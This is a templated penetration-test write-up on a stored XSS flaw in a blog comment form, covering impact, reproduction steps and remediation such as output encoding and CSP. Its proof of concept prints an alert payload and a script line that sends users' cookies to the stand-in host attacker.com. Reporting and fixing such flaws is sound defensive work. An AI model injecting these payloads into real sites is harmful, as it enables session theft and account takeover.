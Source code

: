 # Penetration Testing Writeup: Stored Cross-Site Scripting (XSS) Vulnerability

## Executive Summary

During a penetration test on [Target Application], a critical Stored Cross-Site
Scripting (XSS) vulnerability was discovered in the application's comment
system. This flaw allows attackers to inject malicious scripts that execute in
the browsers of all users viewing the affected page, potentially leading to
account takeover, data theft, or website defacement. This report outlines the
vulnerability details, impact, proof of concept, and remediation steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Stored
- **Severity**: Critical
- **Affected Component**: Comment submission form on the blog page
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/blog/post/[post-id]#comments`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 20, 2025

### Description

The comment submission form on the blog page fails to sanitize user inputs
before storing them in the database. When comments are displayed, the
application renders the stored data directly into the HTML without proper
encoding, allowing attackers to embed malicious JavaScript that executes for all
users viewing the page.

### Impact

- **Account Takeover**: Attackers can steal session cookies to impersonate
  users.
- **Data Exfiltration**: Sensitive user data visible on the page can be sent to
  an attacker-controlled server.
- **Malware Distribution**: Malicious scripts can redirect users to phishing or
  malware-laden sites.
- **Reputation Damage**: Website defacement can harm the application's
  credibility.

### Proof of Concept

1. Navigate to a blog post: `https://[target-application]/blog/post/[post-id]`.
2. In the comment form, submit the payload:
   `<script>alert('Stored XSS');</script>`.
3. Reload the page and observe an alert box with the message "Stored XSS".
4. A malicious payload could be:
   `<script>document.location='https://attacker.com/steal?cookie='+document.cookie;</script>`
   to exfiltrate cookies.

### Steps to Reproduce

1. Visit `https://[target-application]/blog/post/[post-id]`.
2. Enter `<script>alert('Stored XSS');</script>` in the comment form.
3. Submit the comment.
4. Refresh the page to confirm the alert is triggered for all users.

## Remediation Recommendations

1. **Input Sanitization**:
   - Use a server-side library like OWASP AntiSamy to filter out malicious code
     from user inputs before storage.
   - Validate inputs to allow only safe characters (e.g., alphanumeric, limited
     punctuation).
2. **Output Encoding**:
   - Apply HTML entity encoding (e.g., `<` to `&lt;`) when rendering comments in
     the browser.
3. **Content Security Policy (CSP)**:
   - Implement a CSP header:
     `Content-Security-Policy: script-src 'self'; object-src 'none';`.
4. **Database Sanitization**:
   - Sanitize stored data to prevent execution of scripts retrieved from the
     database.
5. **Security Training**:
   - Train developers on secure coding to mitigate XSS risks.

## Conclusion

The Stored XSS vulnerability in [Target Application]’s comment system is a
critical issue requiring immediate remediation to protect users and maintain
trust. Implementing the recommended measures will significantly reduce the risk
of exploitation.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![Stored XSS Alert](https://example.com/images/stored-xss-alert.png)
